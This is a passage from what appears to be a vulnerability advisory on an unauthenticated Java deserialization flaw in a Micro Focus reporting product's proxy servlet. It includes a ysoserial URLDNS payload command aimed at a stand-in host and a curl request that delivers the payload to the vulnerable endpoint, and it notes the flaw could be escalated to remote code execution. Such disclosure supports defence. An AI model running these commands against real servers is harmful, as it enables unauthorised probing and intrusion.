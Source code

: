 ```java

		if (_log.isDebugEnabled()) {
			postResponseWithDebug(httpServletResponse, returnedresult, invocationInfo,
					httpServletRequest.getSession().getId());
		} else {
			postResponse(httpServletResponse, returnedresult);
		}
(...)
```
> Snippet I: *com.mercury.util.proxy.servlet.RemoteProxyServlet.doPost()*

Yet again we have a straight up Java deserialization vulnerability: the body of the HTTP POST request gets read as an object without being inspected or modified.

This vulnerability has a major advantage over the previous ones - it can be triggered by an unauthenticated attacker.
Unfortunately for the attacker, the Java classpath of the *JBoss* application server does not contain any vulnerable gadgets. 

The vulnerability can be confirmed by using the [URLDNS](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java) gadget from *ysoserial*:

```sh
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://fakesitethatdoesntexist.com" > /tmp/payload.ser
```

And then sending the request to the server:

```sh
curl -i -s -k -X $'POST' \
	-H $'Host: 10.10.10.99' \
	--data-binary @/tmp/payload.ser \
	-H $'Content-Type: application/octet-stream' -H 'Expect:' \
   $'https://10.10.10.99/topaz/kpiQueryServiceProxy'
```

This will result in a DNS query being sent to resolve "fakesitethatdoesntexist.com". 

While the classpath does not contain any out-of-the-box gadgets, it is likely that [an attacker](https://github.com/frohoff/ysoserial/pulls?q=is%3Apr+is%3Aclosed+author%3Amatthiaskaiser) who has enough time and patience [will be able](https://codewhitesec.blogspot.com/2016/05/return-of-rhino-old-gadget-revisited.html) to construct a [Java gadget chain](https://codewhitesec.blogspot.com/2016/04/infiltrate16-slidedeck-java-deserialization.html) which will transform this proof of concept into an unauthenticated remote code execution.

### #6: Use of Outdated and Insecure Java Libraries
* [CWE-1104: Use of Unmaintained Third Party Components](https://cwe.mitre.org/data/definitions/1104.html)
* No CVE assigned
* Risk Classification: Critical
* Attack Vector: N/A
* Constraints: None / N/A
* Affected Products / Versions:
    * Micro Focus Operations Bridge Reporter 10.40 (earlier versions likely affected)
